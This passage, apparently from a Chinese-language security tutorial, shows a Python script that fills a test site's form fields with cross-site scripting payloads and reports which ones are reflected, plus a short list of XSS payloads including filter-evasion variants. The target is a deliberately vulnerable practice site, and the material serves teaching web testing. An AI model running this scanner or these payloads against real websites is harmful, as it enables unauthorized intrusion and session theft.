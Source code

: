 您可以在 XXS 文件夹的`URL_xss.py`文件中找到以下代码：

```py
import requests
import sys
from bs4 import BeautifulSoup, SoupStrainer
url = 'http://testphp.vulnweb.com/search.php?test=query'
data ={}

response = requests.get(url)
with open('XSS-attack-vectors.txt') as file:
    for payload in file:
        for field in BeautifulSoup(response.text, "html.parser",parse_only=SoupStrainer('input')):
            print(field)
            if field.has_attr('name'):
                if field['name'].lower() == "submit":
                    data[field['name']] = "submit"
                else:
                    data[field['name']] = payload

        response = requests.post(url, data=data)
        if payload in response.text:
            print("Payload "+ payload +" returned")
        data ={}
```

您可以在 XXS 文件夹的`XSS-attack-vectors.txt`文件中找到以下代码：

```py
<SCRIPT>alert('XSS');</SCRIPT>
<script>alert('XSS');</script>
<BODY ONLOAD=alert('XSS')>
<scrscriptipt>alert('XSS');</scrscriptipt>
<SCR%00IPT>alert(\"XSS\")</SCR%00IPT>
```

在这个屏幕截图中，我们可以看到上一个脚本的执行情况，`URL_xss.py`：

![](img/d22b7045-b6a2-427f-ab05-2595f5ed2bdd.png)
